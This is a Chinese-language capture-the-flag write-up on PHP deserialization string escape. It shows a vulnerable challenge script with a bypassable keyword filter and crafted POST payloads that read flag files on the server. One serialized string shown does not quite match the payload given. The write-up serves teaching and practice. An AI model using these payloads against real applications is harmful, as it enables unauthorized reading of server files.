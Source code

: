 ### PHP 反序列化字符逃逸

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67b2beaad0e0a243d4001b14.png)

打开网页拿到源码

```php
<?php
// 需要以 get 方式传入f参数
$function = @$_GET['f'];

// 对 $img（形参）进行过滤，后缀不允许出现 'php','flag','php5','php4','fl1g'
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

// unset() 销毁指定的变量。 
if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

// 本题的作用是将 _SESSION 的两个函数变为 post 传参
extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

// 对$_SESSION进行一些过滤
$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

首先让参数f等于 “phpinfo”，因为题目提示说这里可能会找到些东西

![](https://pic1.imgdb.cn/item/67b2bf5ed0e0a243d4001b33.png)

很明显是要读取这个文件，代码里读取文件的地方在这里

```php
if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

**反序列化字符串逃逸的原理：**

```
在构造键值的时候某些关键字被过滤掉了，但序列化后的字符串记录的长度不会因为过滤而改变，所以就会把序列化后的字符串的结构当做值的内容给读取
```

首先康康反序列化结果长啥样

```php
<?php
$_SESSION["user"] = '*';
$_SESSION['function'] = '**';
$_SESSION['img'] = base64_encode('guest_img.png');
echo serialize($_SESSION);

// a:3:{s:4:"user";s:1:"*";s:8:"function";s:2:"**";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

那么我们如果想要读取 `d0g3_f1ag.php` 文件的内容就需要令反序列化后的

```php
$_SESSION['img'] 为 d0g3_f1ag.php => ZDBnM19mMWFnLnBocA==
```

则初步反序列化内容

```php
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";
```

再看到 `$serialize_info = filter(serialize($_SESSION));`

先经过序列化，然后在进行 `filter` 函数，也就是过滤替换操作

这样的话就很有可能会造成序列化字符串逃逸的问题

首先默认的序列化数据是

```php
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:14:"highlight_file";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

这里可以控制的部分是 user 和 function 的内容

于是要利用过滤，用 user 吃掉后面的

```
";s:8:"function";s:14:
```

之后在 function 的部分便可以写入数据控制后面的内容了

要吃掉的数据一共是 22 个，于是 user 的值为 phpphpphpphpphpphpflag

_SESSION[function] 的值为

```
;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"f";s:1:"a";}
```

这里要保证数组内的个数相等，所以要传入两个值，于是构造利用 payload

```php
_SESSION[user]=flagflagflagflagphpphp&_SESSION[function]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"f";s:1:"a";}
```

由于 `_SESSION` 数组有 3 个值，则需要在后面补充随便一个值即可

传入后 `$serialize_info` 的就为以下值

```php
a:3:{s:4:"user";s:22:"";s:8:"function";s:34:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

随后再读取 `s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

随后大括号闭合

后面的 `";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}` 值丢弃

读取到 `d0g3_f1ag.php` 内容为

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

再依法读取 `/d0g3_fllllllag` 即可

```php
_SESSION[user]=flagflagflagflagphpphp&_SESSION[function]=;s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"f";s:1:"a";}
```

![](https://pic1.imgdb.cn/item/67b30404d0e0a243d4003c54.png)